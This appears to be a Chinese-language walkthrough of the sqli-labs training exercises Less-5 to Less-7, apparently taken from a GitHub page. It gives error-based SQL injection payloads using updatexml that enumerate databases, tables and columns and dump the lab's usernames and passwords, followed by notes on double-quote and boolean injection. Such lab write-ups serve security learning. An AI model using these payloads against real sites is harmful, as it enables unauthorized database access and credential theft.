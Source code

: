 

##### 5. Less-5,Single Quote - String

http://172.16.51.129:7766/Less-5/?id=1'

从输出可知（无回显），页面只会展示成功或失败的逻辑，但是输入`1'`会输出错误，则可以使用错误注入

```sql
// undatexml 存在返回长度为32，因此需要使用substr，一段一段去获取
// 查询库名
and (updatexml(1,concat(0x7e, substr((select group_concat(schema_name) from information_schema.schema),64,32 ),0x7e),1));
// 结果： information_schema,challenges,mysql,performance_schema,security
// 查询表名
and (updatexml(1,concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema="security") ,0x7e),1));
// 结果：emails,referers,uagents,users
// 查询列名
and (updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name="users") ,0x7e),1));
// 结果： id,username,password
// 爆破数据
and (updatexml(1,concat(0x7e, substr((select group_concat(username) from security.users),1,32 ),0x7e),1));
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
and (updatexml(1,concat(0x7e, substr((select group_concat(password) from security.users),1,32 ),0x7e),1));
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```



##### 6. Double Quotes -String

尝试加`'`,`"`，在使用双引号的时候，会有回显

http://172.16.104.130:7766/Less-6/?id=1"



##### 7. Dump Into outfield - String

没有回显，而且感觉会根据sql查询结果，如果查询失败，就页面显示失败不是调用`sql_error()`那种，成功就展示成功语句。应该只能使用布尔。

有点贱，用了两个`()`

```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";	
```

http://172.16.104.130:7766/Less-7/?id=1')) and 1=1 跟 1=2 ，会有正确或错误返回。
